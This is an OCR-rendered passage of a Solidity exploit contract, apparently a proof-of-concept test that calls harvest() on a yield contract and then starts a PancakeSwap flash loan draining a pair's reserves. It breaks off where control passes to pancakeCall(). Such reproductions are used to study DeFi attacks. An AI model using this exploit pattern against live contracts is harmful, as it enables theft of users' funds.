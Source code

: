 │             abi.encodeWithSignature("harvest()")                                                                                                                                                                                                      │
│         );                                                                                                                                                                                                                                            │
│         require(success, "flip.harvest() fails");                                                                                                                                                                                                     │
│                                                                                                                                                                                                                                                       │
│         emit log_string("Exploit begins:");                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                       │
│         trigger();                                                                                                                                                                                                                                    │
│     }                                                                                                                                                                                                                                                 │
│     function trigger() public {                                                                                                                                                                                                                       │
│         if (flip.earned(address(this)) > 0) {                                                                                                                                                                                                         │
│             //Initiate flashloans                                                                                                                                                                                                                     │
│             emit log_string("Initiate flashloans...");                                                                                                                                                                                                │
│                                                                                                                                                                                                                                                       │
│             (uint256 _amount0, uint256 _amount1, ) = pairs[0].getReserves();                                                                                                                                                                          │
│             if (WBNB == pairs[0].token1()) {                                                                                                                                                                                                          │
│                 pairs[0].swap(0, _amount1 - 1, address(this), abi.encode(0, 1));                                                                                                                                                                      │
│             } else {                                                                                                                                                                                                                                  │
│                 pairs[0].swap(_amount0 - 1, 0, address(this), abi.encode(0, 0));                                                                                                                                                                      │
│             }                                                                                                                                                                                                                                         │
│                                                                                                                                                                                                                                                       │
│             // execution passes to pancakeCall()                                                                                                                                                                                                      │